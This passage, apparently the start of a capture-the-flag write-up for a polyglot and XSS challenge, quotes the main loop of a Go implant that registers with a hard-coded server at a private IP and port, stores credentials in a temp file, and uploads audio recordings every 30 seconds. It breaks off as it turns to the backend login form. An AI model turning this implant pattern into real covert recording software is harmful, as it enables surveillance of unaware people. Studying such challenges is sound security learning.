 This is a polyglot and XSS challenge.
It is very interesting and well conceptualized.

##### Analyzing the bug.

The premise is that there is a go program called `spybug-agent.go`.
This program is like an implant, and it begins recording every 30 seconds.

Here is the code for the 30 second loop as well as the upload to the server:
```go

func main() {
	const configPath string = "/tmp/spybug.conf"
	const audioPath string = "rec.wav"
	const apiURL string = "http://10.18.232.1:1337"


	var apiConnection bool = checkConnection(apiURL)

	if apiConnection {
		var configFileExists bool = checkFile(configPath)
		if configFileExists {
			var credidentials []string = readFromConfigFile(configPath)
			var credsValidated = checkAgent(apiURL, credidentials[0], credidentials[1])
			if credsValidated {
				updateDetails(apiURL, credidentials[0], credidentials[1])
				for range time.NewTicker(30 * time.Second).C {
					recordingRoutine(apiURL, credidentials[0], credidentials[1], audioPath)
				}
			} else {
				var newCredidentials []string = registerAgent(apiURL)
				writeToConfigFile(configPath, newCredidentials[0], newCredidentials[1])
				main()
			}
		} else {
			var newCredidentials []string = registerAgent(apiURL)
			writeToConfigFile(configPath, newCredidentials[0], newCredidentials[1])
			main()
		}
	} else {
		time.Sleep(30 * time.Second)
		main()
	}
}}
```

We can see that the bug initiates a `Ticker` object, executing the `recordingRoutine` function every 30 seconds.

After the recording is done, it then sends it to a server.
On which an administrator can listen to these recordings.

##### Analyzing the backend.
Here is the login form for the backend:
